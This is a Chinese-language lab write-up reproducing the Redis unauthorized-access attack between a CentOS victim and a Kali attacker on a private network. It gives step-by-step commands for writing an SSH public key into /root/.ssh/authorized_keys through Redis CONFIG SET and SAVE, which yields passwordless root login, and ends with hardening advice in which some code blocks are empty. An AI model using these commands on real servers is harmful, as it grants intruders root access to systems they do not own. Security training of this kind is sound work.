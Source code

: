 ## 漏洞复现-rides未授权访问

### 0x00 环境准备

- 达成效果：不知道密码的情况下，远程ssh连接靶机
- 达成条件：

```shell
# 1.关闭rides受保护模式 
vim /etc/redis/6379.conf
注释 bind 127.0.0.1 ::1
protected no
redis-server	# 重启redis服务器
###########or############
redis-server&	# 后台启动redis
redis-cli		# 进入redis客户端
CONFIG SET protected-mode no	# 关闭rides受保护模式
#########################

# 2.免密登陆Redis服务
```

| 靶机-CentOS 7  | 攻击机-Kali    |
| -------------- | -------------- |
| 192.168.12.135 | 192.168.12.137 |

### 0x01 安装rides服务器

详细查看：

### 0x02 复现步骤

一、靶机：

```shell
# 开启redis服务器
redis-server&

# 默认是没有.ssh这个目录的，当使用ssh登录一次过后会自动生成
ssh localhost		# 不管是否登录成功，都会生成/root/.ssh文件
##################or###################
# 创建密钥存放目录
mkdir /root/.ssh

```

二、攻击机：

```shell
# 生成ssh公钥和私钥，密码设置为空
ssh-keygen -t rsa	# 生成公钥(id_rsa.pub)到.ssh/目录

# 切换到.ssh/目录
cd .ssh/

# 查看公钥内容
cat id_rsa.pub

# 写入到key.txt文件中（写入空行，防止前后出现乱码）
(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n") > key.txt

# 将key.txt写到redis服务器
cat ~/.ssh/key.txt | redis-cli -h 192.168.12.135 -p 6379 -x set xxx
# -x 代表从标准输入读取数据作为该命令的最后一个参数

# 登录redis服务器
redis-cli -h 192.168.12.135
# 更改Redis备份路径为ssh公钥存放目录（一般默认是/root/.ssh）
config set dir /root/.ssh/
# 设置上传公钥的备份文件名字为 authorized_keys
config set dbfilename authorized_keys
save
```

```shell
# ssh远程连接
ssh root@192.168.12.135
```

![image-20221130001951606](https://s2.loli.net/2022/11/30/3Prmf2vxN9jELS8.png)



### 0x03 安全性配置

1. redis服务器默认远程连接没有密码，需要去设置连接密码

   ```shell
   #主配置文件中添加
   requirepass root@123
   ```

2. 开启受保护模式，主要解决没有绑定服务器地址或没有设置密码

   ```shell
   # 主配置文件中设置
   
   ```

3. 使用普通用户来运行redis服务器

   ```shell
   # 创建普通用户
   useradd -M redis
   # 修改redis服务器的日志文件及数据库存放目录的权限
   chown redis:redis /var/log/redis_6379.log
   chown -R redis:redis /var/lib/redis/6379
   ```

4. 将redis服务器中的高危命令禁用（将高危命令直接改名，改成其他名字或直接为空）

   ```shell
   # 主配置文件中设置
   
   ```

5. 设置超时时间（）

   ```shell
   # 主配置文件中设置
   timeout 10		# 客户端10秒没有操作，自动断开
   ```

6. 修改redis服务器的默认端口号

   ```shell
   # 主配置文件中设置
   port 6679
   ```

7. 通过对Linux服务器的防火墙进行策略配置

   - 采用iptables或者firewalld防火墙对连接redis服务器进行指定，仅允许某台主机可以连接